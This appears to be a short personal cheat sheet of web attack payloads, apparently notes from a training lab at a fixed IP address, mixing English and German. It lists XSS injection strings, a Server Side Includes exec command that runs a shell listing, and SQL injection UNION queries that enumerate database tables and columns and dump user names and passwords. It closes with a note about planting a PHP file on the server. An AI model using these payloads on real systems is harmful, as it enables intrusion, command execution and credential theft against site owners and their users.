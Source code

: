 # SQL_XSS

XSS
#< script>alert('blabla')< /script>


#SSI -> Server Side Includes
#open a cmd and entre a command on a server using a injiection / for example, to see some directories or files on a server
 <! --#exec cmd="ls ../.." -->  #drop the space

92.60.14.134:8081/xss/iframe3?path=asdfasdf" onload="alert('blabla')

http://92.60.14.134:8081/xss/jsvar1?count=99%22);alert(2);//

http://92.60.14.134:8081/xss/jsvar2?count=33);%3C/script%3E%3Cscript%3Ealert(2)%3C/script%3E

SQL Injection:
105 ' or 1=1 -- -'

http://92.60.14.134:8081/sql/1?category=animal' Union select @@version, null;-- -
http:/bla.ch/bla=1 union all select #find the nummer of tables by test.. example 1,#enter not ok# 1, 2
 from table name
 
 
Alles auszeigen lassen:
http://92.60.14.134:8081/sql/1?category=animal' Union select table_schema, table_name from 

information_schema.tables;-- -

http://92.60.14.134:8081/sql/1?category=animal' Union select table_name, column_name from 

information_schema.columns ;-- -

http://92.60.14.134:8081/sql/1?category=animal' UNION SELECT user_name,user_password FROM users;-- -

Wenn Datenbank im Root verzeichnis lauft, dann kann ein PHP file eingespielt werden.
